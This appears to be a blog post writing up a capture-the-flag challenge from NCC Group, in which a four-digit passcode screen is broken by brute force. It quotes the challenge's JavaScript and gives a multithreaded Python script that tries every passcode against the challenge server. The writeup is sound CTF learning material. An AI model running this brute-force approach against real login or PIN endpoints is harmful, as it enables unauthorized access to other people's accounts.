 ```yaml
---
layout: post
title: "NCC Ninja - iOS5"
date: 2019-01-03
permalink: ncc-ninja-1
tags: hacking
---
```


> I recently discovered NCC Group's ["Are you a ninja" challenges](https://areyouan.ncc.ninja/challenges/).
> This is the first challenge on the site. I hope to complete them all and make a series out of it.

![chall]({{site.url}}/assets/resources-ncc/chall.png)

In this challenge they start us off easy. My first instinct was to poke around the javascript source, specifically in a file called `iOS.js`.

{% highlight javascript %}
function checkPasscode(passcode) {
$.post("", {
    passcode: enteredCode
  }, function(result) {
    var res = result;
    if (res == "Try Again") {
      console.log("wrong passcode");$(".lock-status").effect("shake");
// need if statement for different IOS versions
if ($(".keys").length) {
        // make h.box go red$(".header-msg").css('background-color', 'red');
// say wrong passcode
$('input[type="password"]').each(function() {$(this).val("");
});
setTimeout(function(){ $(".header-msg").css('background-color',''); },1500)
      } else {$('input[type="radio"]').each(function() {
$(this).effect("shake");$(this).prop("checked", false);
});
}

      enteredCode = "";
    } else {
      // correctly entered passcode
      $(".unlockscreen").hide();
      $(".unlockedscreen").html(result);
      $(".unlockedscreen").fadeIn();
    }

});
{% endhighlight %}

From looking at the source, this codes POSTs with the provided passcode (passed into the function) to some API, and the server (presumably) returns the flag when the right passcode is entered. Just changing the `res` in an HTTP proxy (like Burp Suite), did trick the client-side code into thinking
we received a valid response, but obviously didn't print the flag.

I opened up the network tab of chrome to take a peek at the response. With the 10000/hr limit on requests, it seemed
pretty obvious that this first challenge was a bruteforce one. With that in mind, I wanted to do something a little more interesting than my normal
brute script. I decided to multithread the script. This script spawns 20 threads, each in charge of testing 500 passcodes.

![ratelimit]({{site.url}}/assets/resources-ncc/ratelimit.png)

{% highlight python %}
import requests
import threading
import logging
import sys

URL = "https://challenges.ncc.ninja/<ID>/"
headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
"X-Requested-With": "XMLHTTPRequest"}

logging.basicConfig(
filename='ios5.log',
level=logging.DEBUG,
format='[%(levelname)s](<%(threadName)-10s>) %(message)s',
)

def worker(start, end):
logging.debug(str(start))
logging.debug(str(end))
for i in range(start, end):
data = {"passcode": str(i).zfill(4)}
logging.debug(str(i).zfill(4))
r = requests.post(URL, data=data, headers=headers)
logging.debug(r.status_code)
logging.debug(r.text)
if r.text != "Try Again":
logging.info("[-] The passcode is: " + str(i).zfill(4))
logging.debug("===")
logging.debug(r.text)
logging.debug(r.status_code)
logging.debug(str(i).zfill(4))
logging.debug("===")

# 20 chunks of 500

threads = []
for i in range(0, 20):
print("Starting thread"+str(i))
start = 500*i
end = ((500*i)+500)-1
t = threading.Thread(name=str(start)+"-"+str(end),
target=worker, args=(start, end))
threads.append(t)
t.start()
{% endhighlight %}

Letting the script run for a while, we eventually end up with a valid passcode, and the flag logged into our output file. We
can enter the passcode ourselves too.

![ios-done]({{site.url}}/assets/resources-ncc/ios5-complete.png)
